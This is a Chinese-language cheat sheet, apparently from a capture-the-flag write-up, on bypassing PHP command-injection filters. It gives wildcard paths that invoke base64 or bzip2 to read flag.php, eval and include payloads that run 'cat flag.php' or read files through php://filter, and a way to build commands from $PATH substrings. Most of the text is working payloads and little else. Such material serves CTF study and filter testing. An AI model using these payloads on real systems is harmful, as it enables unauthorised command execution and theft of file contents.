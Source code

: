 ```sh
#  \指的是换行
#  ls -t是将文本按时间排序输出
#  ls -t >shell  将输出输入到shell文件中
#  sh将文本中的文字读取出来执行
```

## 过滤所有字母

/bin目录下不止cat一个命令，还有很多，可以利用有数字的配合通配符来输出内容，例如base64，还有/usr/bin下，例如bzip2

```sh
/???/????64 ????.???   # /bin/base64 flag.php 
/???/???/????2 ????.???  # /usr/bin/bzip2 flag.php 访问url/flag.php.bz2就能下载
```

## 迂回绕过

### eval

```sh
eval($_GET[1]);&1=system("cat flag.php");
```

### include

```sh
include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php
```

### 过滤[] 、; 、()

```sh
include$_GET{1}?>
```

## 利用$PATH环境变量绕过

利用环境变量来截取字母达到绕过过滤

```php
echo ${PATH:5:1}${PATH:2:1}
ls
```

```sh
echo ${PATH}   
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
echo ${PATH:1:9}
usr/local

通过截断拼接命令
${PATH:5:1}    
//l
${PATH:2:1}    
//s${PATH:5:1}
${PATH:2:1} 
//拼接后是ls,执行命令
${PATH:5:1}s           
//拼接后是ls,执行命令
```

